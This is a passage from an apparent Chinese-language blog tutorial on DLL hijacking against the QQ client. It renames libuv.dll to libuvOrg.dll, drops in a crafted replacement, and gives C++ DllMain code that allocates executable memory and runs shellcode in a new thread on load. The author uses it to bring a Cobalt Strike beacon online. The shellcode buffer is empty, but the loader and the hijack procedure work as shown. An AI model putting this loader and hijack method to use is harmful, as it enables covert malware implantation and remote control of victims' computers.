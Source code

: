 将原dll文件改名为之前在软件里面的名字`libuvOrg.dll`，并把我们生成的dll文件复制进去，命名为`libuv.dll`
![](https://img-blog.csdnimg.cn/f54486c59f7c4bc7b601a3e798bf4a7d.png)

运行qq，最终成功反弹计算器
![](https://img-blog.csdnimg.cn/c0e40deb54214b7e93889e318ac125f1.png)

最后考虑上线cs，先用cs生成我们的payload，这里我选择x86的payload
![](https://img-blog.csdnimg.cn/0e172756a6cb48daad2c93a40cae7a0d.png)

得到payload后插入到我们的dll代码当中
```cpp
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
// shellcode
unsigned char shellcode[] = "";

DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
	LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(lpBase, shellcode, sizeof(shellcode));
	JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
	jmp_shellcode();
	return 0;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
	}

	return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```
![](https://img-blog.csdnimg.cn/da6d67f053a54be2ac453963d52fd517.png)

最后生成出来，运行qq，成功上线cs
![](https://img-blog.csdnimg.cn/5bf723d3d38c4e41b1a0dfe21e40fbcd.png)
